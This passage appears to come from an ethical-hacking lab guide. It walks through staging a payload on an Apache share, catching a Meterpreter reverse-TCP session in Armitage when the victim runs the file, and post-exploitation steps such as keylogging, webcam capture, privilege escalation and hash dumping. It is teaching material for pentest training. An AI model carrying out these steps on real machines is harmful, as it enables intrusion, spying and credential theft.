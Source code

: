 - In the Terminal window, type `cp malicious_payload.exe /var/www/html/share/`, and press Enter to copy the file to the shared folder.

- Type `service apache2 start` and press Enter to start the Apache server.

- Switch back to the Armitage window. In the left-hand pane, double-click `meterpreter_reverse_tcp`.

- The `windows/meterpreter_reverse_tcp` window appears. Scroll down to `LPORT` Option and change the port Value to `444`. Ensure that the `multi/handler` option is selected in the Output field; click `Launch`.

- Now, switch to victim machine and open any web browser and visit `http://10.10.1.13/share`

- Download and run `malicious_payload.exe`

- On the attacker machine, observe that one session has been created or opened in the Meterpreter shell, and the host icon displays the target system name (e.g., WINDOWS11).

- Interact with the Meterpreter Shell.

- A new Meterpreter tab appears. Type `sysinfo` and press Enter to view the system details of the exploited system.

- A new Files tab and the present working directory of the target system appear. You can observe the files present in the Download folder of the target system.

- Using this option, you can perform various functions such as uploading a file, making a directory, and listing all drives present in the target system.

- Similarly, you can explore other options such as Desktop (VNC), Show Processes, Log Keystrokes, and Webcam Shot.

- You can also escalate privileges in the target system using the `Escalate Privileges` option and further steal tokens, dump hashes, or perform other activities.

---

### 2. Privilege Escalation to Gain Higher Privileges

- Privilege escalation involves using a non-admin user account to gain higher access levels in the target system, including admin privileges.

- As a professional ethical hacker or pen tester, the second step in system hacking is to escalate privileges using user account passwords obtained in the first step. Various techniques, such as named pipe impersonation, misconfigured service exploitation, pivoting, and relaying, will be employed to gain higher privileges on the target system.

**Privilege Escalation Overview**

- Privilege escalation is the process of acquiring more privileges than initially obtained, exploiting design flaws, programming errors, bugs, and configuration oversights in the OS and software applications.

- Backdoors, containing trojans or infectious applications, are employed to gain remote access to the target system. These backdoors can be distributed through email, file-sharing web applications, or shared network drives. Once executed by a user, access to the affected machine is obtained for activities like keylogging and sensitive data extraction.
